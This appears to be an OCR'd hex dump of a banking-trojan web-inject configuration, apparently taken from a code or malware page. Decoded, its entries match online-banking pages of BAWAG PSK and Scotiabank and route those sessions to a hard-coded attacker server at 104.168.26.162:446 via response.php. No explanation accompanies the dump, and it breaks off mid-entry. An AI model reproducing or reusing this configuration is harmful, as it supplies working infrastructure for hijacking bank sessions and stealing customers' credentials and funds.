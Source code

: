 2F 6C 6D 3E 0A 3C 68 6C 3E 68 74 74 70 73 3A 2F
2F 31 30 34 2E 31 36 38 2E 32 36 2E 31 36 32 3A
34 34 36 2F 72 65 73 70 6F 6E 73 65 2E 70 68 70
3F 73 3D 31 35 32 37 31 36 34 32 37 35 39 32 33
37 38 35 26 69 64 3D 58 36 5A 6E 49 68 62 48 78
4C 7A 7A 73 63 77 4F 35 4D 58 62 3C 2F 68 6C 3E
0A 3C 70 72 69 3E 31 30 30 3C 2F 70 72 69 3E 0A
3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C 72 65 71 75
69 72 65 5F 68 65 61 64 65 72 3E 2A 74 65 78 74
2F 68 74 6D 6C 2A 3C 2F 72 65 71 75 69 72 65 5F
68 65 61 64 65 72 3E 0A 3C 2F 64 69 6E 6A 3E 0A
3C 2F 69 67 72 6F 75 70 3E 0A 3C 69 67 72 6F 75
70 3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C 6D 3E 2A 2F
72 63 72 64 2F 31 35 32 37 31 36 32 35 37 35 31
39 36 37 35 33 2A 3C 2F 6C 6D 3E 0A 3C 68 6C 3E
68 74 74 70 73 3A 2F 2F 31 30 34 2E 31 36 38 2E
32 36 2E 31 36 32 3A 34 34 36 2F 72 65 73 70 6F
6E 73 65 2F 72 63 72 64 2E 70 68 70 3F 73 3D 31
35 32 37 31 36 32 35 37 35 31 39 36 37 35 33 3C
2F 68 6C 3E 0A 3C 70 72 69 3E 31 30 30 3C 2F 70
72 69 3E 0A 3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C
2F 64 69 6E 6A 3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C
6D 3E 68 74 74 70 73 3A 2F 2F 2A 65 62 61 6E 6B
69 6E 67 2E 62 61 77 61 67 70 73 6B 2E 63 6F 6D
2F 49 6E 74 65 72 6E 65 74 42 61 6E 6B 69 6E 67
2A 3C 2F 6C 6D 3E 0A 3C 68 6C 3E 68 74 74 70 73
3A 2F 2F 31 30 34 2E 31 36 38 2E 32 36 2E 31 36
32 3A 34 34 36 2F 72 65 73 70 6F 6E 73 65 2E 70
68 70 3F 73 3D 31 35 32 37 31 36 32 35 37 35 31
39 36 37 35 33 26 69 64 3D 69 6D 71 4E 6C 4E 6D
31 4D 71 4D 69 4F 4E 43 74 49 30 30 6D 3C 2F 68
6C 3E 0A 3C 70 72 69 3E 31 30 30 3C 2F 70 72 69
3E 0A 3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C 72 65
71 75 69 72 65 5F 68 65 61 64 65 72 3E 2A 74 65
78 74 2F 68 74 6D 6C 2A 3C 2F 72 65 71 75 69 72
65 5F 68 65 61 64 65 72 3E 0A 3C 2F 64 69 6E 6A
3E 0A 3C 2F 69 67 72 6F 75 70 3E 0A 3C 69 67 72
6F 75 70 3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C 6D 3E
2A 2F 72 63 72 64 2F 31 35 32 37 31 36 34 39 38
35 36 38 37 33 38 34 2A 3C 2F 6C 6D 3E 0A 3C 68
6C 3E 68 74 74 70 73 3A 2F 2F 31 30 34 2E 31 36
38 2E 32 36 2E 31 36 32 3A 34 34 36 2F 72 65 73
70 6F 6E 73 65 2F 72 63 72 64 2E 70 68 70 3F 73
3D 31 35 32 37 31 36 34 39 38 35 36 38 37 33 38
34 3C 2F 68 6C 3E 0A 3C 70 72 69 3E 31 30 30 3C
2F 70 72 69 3E 0A 3C 73 71 3E 32 3C 2F 73 71 3E
0A 3C 2F 64 69 6E 6A 3E 0A 3C 64 69 6E 6A 3E 0A
3C 6C 6D 3E 68 74 74 70 73 3A 2F 2F 77 77 77 2A
2E 73 63 6F 74 69 61 6F 6E 6C 69 6E 65 2E 73 63
6F 74 69 61 62 61 6E 6B 2E 63 6F 6D 2F 2A 3C 2F
6C 6D 3E 0A 3C 68 6C 3E 68 74 74 70 73 3A 2F 2F
31 30 34 2E 31 36 38 2E 32 36 2E 31 36 32 3A 34
34 36 2F 72 65 73 70 6F 6E 73 65 2E 70 68 70 3F
73 3D 31 35 32 37 31 36 34 39 38 35 36 38 37 33
38 34 26 69 64 3D 4D 66 54 6C 55 4F 54 49 44 75
6B 5A 47 55 48 77 57 6E 70 61 3C 2F 68 6C 3E 0A
3C 70 72 69 3E 31 30 30 3C 2F 70 72 69 3E 0A 3C
73 71 3E 32 3C 2F 73 71 3E 0A 3C 72 65 71 75 69
72 65 5F 68 65 61 64 65 72 3E 2A 74 65 78 74 2F
68 74 6D 6C 2A 3C 2F 72 65 71 75 69 72 65 5F 68
65 61 64 65 72 3E 0A 3C 2F 64 69 6E 6A 3E 0A 3C
2F 69 67 72 6F 75 70 3E 0A 3C 69 67 72 6F 75 70
3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C 6D 3E 2A 2F 72
63 72 64 2F 31 35 33 36 31 37 36 35 39 30 36 37